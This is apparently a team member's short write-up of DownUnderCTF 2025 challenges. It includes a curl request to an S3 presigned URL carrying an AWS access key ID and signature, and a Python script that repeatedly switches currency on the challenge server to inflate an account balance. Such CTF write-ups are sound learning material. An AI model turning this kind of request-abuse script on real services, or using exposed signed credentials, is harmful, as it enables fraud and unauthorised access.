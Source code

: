 ```yaml
---
title: DUCTF writeups

---
```


DUCTF Writeups
![ductf20251](https://hackmd.io/_uploads/rkRNjVCwle.png)

Our team got 14th place overall, and we'll go through the 6 challenges i was able to solve.
![ductf20252](https://hackmd.io/_uploads/Sy9Hj4APlg.png)

# ductfbank1
talk to the AI, make an account, get flag.
# kick the bucket
curl -A "aws-sdk-go/1.44.100 (go1.19; linux; amd64)" "https://kickme-95f596ff5b61453187fbc1c9faa3052e.s3.us-east-1.amazonaws.com/flag.txt?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAXC42U7VJ7MRP6INU%2F20250715%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250715T124755Z&X-Amz-Expires=604800&X-Amz-SignedHeaders=host&X-Amz-Signature=6cefb6299d55fb9e2f97e8d34a64ad8243cdb833e7bdf92fc031d57e96818d9b"
<?xml version="1.0" encoding="UTF-8"?>
this was the command i used to bypass the error, unfortunately, as the time of writing this, the server has shutted down
# our-lonely-dog
challeng desc:
> Dear hajjilla,
> 
> e-dog has been alone in the downunderctf.com email server for so long, please yeet him an email of some of your pets to keep him company, he might even share his favourite toy with you.
> 
> He has a knack for hiding things one layer deeper than you would expect.
> 
> Regards,
> crem

by sending an email to e-dog, we get a response

![ductf20253](https://hackmd.io/_uploads/SknajN0wgx.png)

after checking the raw source of the email, we get our flag:
![ductf20254](https://hackmd.io/_uploads/HJO0j4Avgg.png)

# stonks
we get presented with a neuseating website, but by signing up for an account an exploiting the server request, by running this script and clicking on "see if im rich":
``` python
import requests

url = "https://beginner-stonks-a0c8e158ea33.2025.ductf.net"
session = requests.Session()

# Login (replace with your credentials)
response = session.post(f"{url}/login", data={"username": "thinh", "password": "thinh"})
if "INCORRECT" in response.text:
    print("Login failed")
    exit()

# Alternate between IDR and GBP
currencies = ["IDR", "GBP"]
for i in range(1000):  # Adjust number of iterations
    currency = currencies[i % 2]
    response = session.post(f"{url}/change-currency", data={"currency": currency})
    print(f"Iteration {i+1}: Switched to {currency}")

# Check balance
response = session.get(f"{url}/")
balance = float(response.text.split("Your balance is: ")[1].split(" ")[0])  # Parse balance from HTML
print(f"Final balance: {balance}")

# Check if rich
response = session.get(f"{url}/are-you-rich")
print(response.text)
```

![ductf20255](https://hackmd.io/_uploads/HkGyhVRPex.png)

# zeus 
we are given a C program, and by reverse enginneering it, we find the correct input, triggering zeus to respond 

![ductf20256](https://hackmd.io/_uploads/SkJe3NCvex.png)

![ductf20257](https://hackmd.io/_uploads/S1se2ECDee.png)

---
written by hajjilla